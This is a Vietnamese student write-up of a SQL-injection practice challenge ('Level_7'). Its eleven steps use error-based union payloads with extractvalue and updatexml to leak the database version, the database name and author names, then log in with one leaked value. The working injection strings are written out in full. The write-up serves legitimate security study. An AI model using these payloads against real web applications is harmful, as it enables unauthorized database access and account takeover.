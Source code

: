 # <div align="center"><p> SQL-Injection/Level_7</p></div>
 ## Họ và tên: Mai Thị Hoàng Yến
 ## Ngày báo cáo: Ngày 05/5/2022
 ### MỤC LỤC
   [SQL-Injection](#gioithieu)
   
### Nội dung báo cáo 
#### SQL-Injection <a name="gioithieu"></a>
- B1: Đây là màn hình chính của trang web level_7. Trang web cho chúng ta biết thêm thông tin đó là tên table `level7_news` và cột là `autor`.

  ![image](https://user-images.githubusercontent.com/101852647/166922826-3e7e477b-7dfc-4333-9455-9df038682065.png)
  
- B2: Bắt đầu nhập thử `1` ta thấy trang web trả về cho chúng ta trang thông tin .

  ![image](https://user-images.githubusercontent.com/101852647/166923381-2f39c5cb-359b-4c5b-90b4-9226dd0dd284.png)

- B3: Ta thử chèn thêm dấu ' thì trang web trả về lỗi.

  ![image](https://user-images.githubusercontent.com/101852647/166923474-9c01ee61-b909-41d0-b0ad-3bda97480a3c.png)

- B4: Tiếp tục ta thử chèn câu lệnh `1%') union slect 1,2 from level7_news#` Nhưng trả web trả về thông báo có thứ gì đó không ổn.

  ![image](https://user-images.githubusercontent.com/101852647/167061461-1abbd29e-9e97-43ea-9898-0d9769926480.png)

- B5: Ta sẽ dựa trên ERROR BASE để khai thác thử dùng câu lệnh `1%') union select extractvalue(0x0a,concat(0x0a,(select version()))) or ('%1` để tìm được phiên bản của nó.

  ![image](https://user-images.githubusercontent.com/101852647/167061631-5dfed4d3-7c95-43fe-8d1a-57db03df1f24.png)

- B6: Sử dụng câu lệnh `1%') union select extractvalue(0x0a,concat(0x0a,(select database()))) or ('%1` để tìm tên database.

  ![image](https://user-images.githubusercontent.com/101852647/167061873-f92ca2bc-190d-4622-b5c2-a5503e14af95.png)

- B7: Ta có thể dùng updatexml hoặc extractvalue để khai thác đều được nên ở đây tôi đã thử sử dụng câu lệnh `1%') union select updatexml(null,concat(0x3a,(select autor from level7_news limit  1 OFFSET 0)),null) or ('%1` để khai thác. Kết quả trả về ` site_admin`.

  ![image](https://user-images.githubusercontent.com/101852647/167062167-f0663de1-5f21-4df9-b22c-7ff7a2eabd67.png)

- B8: sử dụng câu lệnh `1%') union select updatexml(null,concat(0x3a,(select autor from level7_news limit  1 OFFSET 1)),null) or ('%1`. Kết quả trả về `press`.

  ![image](https://user-images.githubusercontent.com/101852647/167062215-6fb8d0e1-383a-4191-9c16-b2203bbf2bf6.png)

- B9: sử dụng câu lệnh `1%') union select updatexml(null,concat(0x3a,(select autor from level7_news limit  1 OFFSET 2)),null) or ('%1`. Kết quả trả về `TestUserforg00gle`

  ![image](https://user-images.githubusercontent.com/101852647/167062267-1264c299-a976-458a-9ee9-ca45240dfdfe.png)

- B10: sử dụng câu lệnh `1%') union select updatexml(null,concat(0x3a,(select autor from level7_news limit  1 OFFSET 3)),null) or ('%1`. Kết quả trả về `apple`.

  ![image](https://user-images.githubusercontent.com/101852647/167062329-1aea7534-705e-4151-a7a9-461e29af598c.png)
  
- B11: Ta sẽ thử lần lượt với các kết quả và nhận thấy rằng kết quả `TestUserforg00gle` đăng nhập thành công.

  ![image](https://user-images.githubusercontent.com/101852647/167062438-9ae9847e-4c2c-416a-8a0e-6d9a9ae0fa9d.png)

